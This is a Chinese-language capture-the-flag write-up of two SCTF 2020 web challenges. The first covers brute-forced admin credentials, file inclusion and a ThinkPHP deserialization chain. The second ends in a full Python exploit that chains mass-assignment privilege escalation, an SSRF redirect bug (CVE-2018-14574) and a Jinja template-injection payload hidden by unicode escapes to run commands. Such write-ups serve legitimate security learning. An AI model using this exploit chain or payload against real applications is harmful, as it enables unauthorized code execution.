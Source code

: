 ```yaml
---
title: SCTF 2020 两道Web题 Writeup
tags: 
    - Writeup
    - CTF
date: 2020-7-7
---
```


## UnsafeDefenseSystem

PHP/5.6.26, tp 5.0.24
经过一番吐血的信息搜集，看到了这个破静态站的源码里竟然有注释  

{% asset_img hint.png hint in comment %}

> 我要对出题人使出极限一换一

访问/protect.py能看到一个超长的憨批监控脚本，其实也不用看  
在静态站注释提示的/public/nationalsb/login.php的注释中又看到了关于密码的提示

{% asset_img passwd_hint.png passwd_hint %}

通过爆破得到用户名密码：

```text
Admin1964752
DsaPPPP!@#amspe1221
```

后台存在lfi。经过一番读文件，看到index controller中存在反序列化点

{% asset_img entry.png unserialize entry %}

结合上文所知道的thinkphp版本可以搜到:

https://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/  
https://xz.aliyun.com/t/7594

出题人可能是想让条件竞争过protect.py，但是实际上我们可以往/tmp目录底下写文件，并且在nationalsb那里包含这一文件，最终拿到shell

{% asset_img phpinfo.png phpinfo %}

## jsonhub

白盒审计。对外开放的是web1，一个Django服务，内网还有个flask。

首先整理思路：首先要过那个django的token，然后ssrf请求flask_rpc，这样才能带上Content-Type发POST请求

{% asset_img create_user.png User creation flaw %}

很明显，注册的时候参数完全可控，也就是说可以伪造管理员身份。将两个字段，`is_superuser`与`is_staff`都设置为True，就能访问 `http://39.104.19.182/admin/app/token/` 拿到token了。

在请求后方flask服务前，django服务对`REMOTE_URL`进行了验证。由于题目部署在了docker里，访问公网ip时`REMOTE_URL`实际上是172.多少多少（即使不在docker里也是公网ip）。

https://xz.aliyun.com/t/3302  
利用CVE-2018-14574漏洞进行跳转即可

再看第二个服务：

```python
@app.before_request
def before_request():
    data = str(request.data)
    log()
    if "{{" in data or "}}" in data or "{%" in data or "%}" in data:
        abort(401)
...
    json.loads(...)
```

python中的json模块在解析json时会自动将转义过的字符恢复，所以可以用`"\u007b"`来绕过`before_request`
关于表达式的正则过滤，由于对符号的过滤不严格导致了一个非预期，甚至完全不需要管num1和num2：

exploit:

```python
from requests import Request, session, get, post
from bs4 import BeautifulSoup
from base64 import b64encode
import json
HOST = 'http://39.104.19.182'


ses = session()
USER = 'frkasdf'
PASS = 'qwer'

# session 默认keep-alive，这个服务端好像有点连接性问题，所以单独请求
post(HOST + '/reg/', json={
    'username': USER,
    'password': PASS,
    'is_staff': True,
    'is_superuser': True
}).json()['code']

ses.post(HOST + '/login/', json={
    'username': USER,
    'password': PASS,
})

page = BeautifulSoup(get(
    HOST + '/admin/app/token/', cookies=ses.cookies
).text, 'lxml')
token = page.find('td', attrs={'class': 'field-Token'}).text

ssti = '{{config.__class__.__init__.__globals__["os"].popen("/readflag").read() + ""}}'

payload = ('{' + json.dumps({
    'num1': '', 'num2': '', 'symbols': ssti,
})[1:-1].replace('{', '\\u007b').replace('}', '\\u007d') + '}')

payload = b64encode(payload.encode()).decode()

req = Request('GET', HOST + '//127.0.0.1:8000/flask_rpc', params={
    'methods': 'POST',
    'url': 'http://localhost:5000/caculator',
    # flask在:5000
    'data': payload
}).prepare()

print(json.loads(ses.post(HOST + '/home/', json={
    'url': req.url,
    'token': token
}).json()['message'])['message'])
```
